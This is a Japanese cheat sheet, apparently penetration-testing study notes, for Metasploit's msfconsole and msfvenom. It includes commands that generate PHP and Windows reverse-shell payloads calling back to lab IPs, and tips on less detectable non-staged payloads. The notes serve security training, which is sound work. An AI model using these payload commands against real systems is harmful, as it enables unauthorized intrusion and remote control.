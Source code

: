 # Metasploit
[公式ドキュメント](https://docs.metasploit.com)

## 概要
Exploitにつかえるツールがたくさん入ってるOSSのツール。Gitで開発に参加もできる。

Metasploitには以下4つのモジュールがある。攻撃するためのタイプではない。データ収集などができる。
- **Auxiliary** => 
- **Exploit** => ターゲットに侵入するためのExploitを実行できる。
- **Payloads** => RCE実行時のペイロード。ユーザ作成やシェルをつないだりといったことができる。
- **Post** => 初期侵入後にセッションからデータを収集・列挙する系のタスク

## Cheat Sheet
Metasploitを起動する。
```
msfconsole
```

## Msfvenom
[Msfvenomのドキュメント](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

### CheatSheet

-p => カスタムペイロードを使う
-p --payload-options => ペイロードのオプションを表示
-e => エンコードを表示
-a => バイナリが実行されるアーキテクチャを選択
-b => バイナリに使わないバイナリ文字列を選択する。"\x80"とかをいれてNULL文字を含まないようにしたりとか。
-f => アウトプットのフォーマットを選択する。-f cにするとC言語のバイナリ文字列で出せたりする。
--list formats => formatオプションの使用できるオプション一覧を表示する。他のオプションもlist表示できる。

### コマンド集
phpのリバースシェルを生成する
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.45.157 LPORT=4444 -f raw > shell.php
```

1. windows用のリバースシェルバイナリを生成する。
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
```

2. Metasploitフレームワークに搭載されているDBサービスを開始する。Metasploitの実行において必須ではないが、ターゲットホストに関する情報の保存等で使える。  
MSFはDBとしてPostgreSQLを使う。
```
sudo msfdb init
```

#### msfconsole

1. msfconsoleによってMetasploitのCLIを起動する。
```
sudo msfconsole
```

2. 使用可能なすべてのコマンドのリストを取得する。
```
help
```

3. 以前に作成したすべてのワークスペースを一覧で表示する。(pythonでいうvenvの仮想環境みたいなもの？)
```
workspace
```

4. 新しくworkspaceを作成する。
```
workspace -a pen200
```

5. msfconsoleのセッション内でnmapをターゲットに対して実行し、その結果を現在のworkspaceで保存する。  
nmapのコマンドは通常と同じ。
```
db_nmap -A 192.168.50.202
```

6. msfconsoleのセッションにて、dbとの接続をチェックする。
```
db_status
```

7. これまでに検出されたすべてのホストのリスをと取得する。これも、msfconsoleのセッションにてdbを立ち上げているからできる。
```
hosts
```

8. ポートスキャンで検出されたサービスを表示する。
```
services
```

9. smb用のサポートモジュールを検索する
```
search type:auxiliary smb
```

10. use しているエクスプロイトモジュールで設定可能なパラメータを表示する。
```
show options
```

11. パラメータの値を設定する。ここでは、RHOSTSにIPをセット。
```
set RHOSTS 127.0.0.1
```

12. 一度設定したパラメータを初期化する。
```
unset RHOSTS
```

13. 既に検索したhostsに対してスキャンをかけ、445が空いているホストを表示し、それをRHOSTSにセットする。
```
services -p 445 --rhosts
```

14. setしているエクスプロイトを実行する
```
run
```

15. スキャンしたターゲットにおいて、既知の脆弱性が存在するかをチェックする。
```
vulns
```

16. これまでに収集したすべての有効な認証情報を表示する。
```
creds
```

17. エクスプロイトをセットした後に、そのエクスプロイトが何をするものなのか、一般的な情報を取得する。  
ここで、**Module reliability:**という項目があり、エクスプロイトによってはrepeatableなものと**1度しか使用できないもの**があるので注意が必要。  
さらに、**check support**の項目がYesになっている場合、**check**コマンドで、実際にエクスプロイトを走らせる前に、ターゲットに対してエクスプロイトが正しく動作するかをチェックすることもできる。
```
info
```

18. シェルを取った後に、Ctrl+Zでセッションをバックグラウンドにする。その後、msfconsole内でsessions -lを実行してsessionIdを特定。  
session -i 2のようにしてsessionIdを指定して再度セッションに戻る。

19. 現在useしているエクスプロイトで使えるpayloadを一覧表示する。 ファイル名に/がついているとステージングのペイロード。  
非ステージングpayloadの方がNWトラフィックが発生しづらい。つまり_の方のファイル。

20. 現在選択しているエクスプロイトの中で利用できるpayloadsを一覧で表示する
```
show payloads
```

21. show payloadsで表示された中から、インデックス番号で使用するpayloadを選択する。
```
set payload 3
```

22. ペイロードにmulti/handlerを使用する。multi/handlerは、ステージングされたペイロードと非ステージングのペイロード双方において、より高度な対話シェルを可能にする。  
ターゲット侵害できるときに、rlwrap netcat -lvnpの代わりとかで使える。
```
use multi/handler
```


#### msfvenom
**msfvenom**はMetasploitが提供する機能の一つで、**ペイロードを生成するスタンドアロンツールとしてMetasploitに含まれている。**  
  

1. WindowsとTCPリバースシェルを行うためのwindows x64バイナリを生成するため、-lオプションですべてのペイロードのリストを表示する。
```
msfvenom -l payloads --platform windows --arch x64
```

2. NWトラフィックが発生しづらいとされる非ステージングのペイロードを生成する。
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

3. msfvenomで利用できるすべてのペイロードを一覧表示する。
```
msfvenom --list payloads
```

4. phpのリバースシェルを生成する。
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```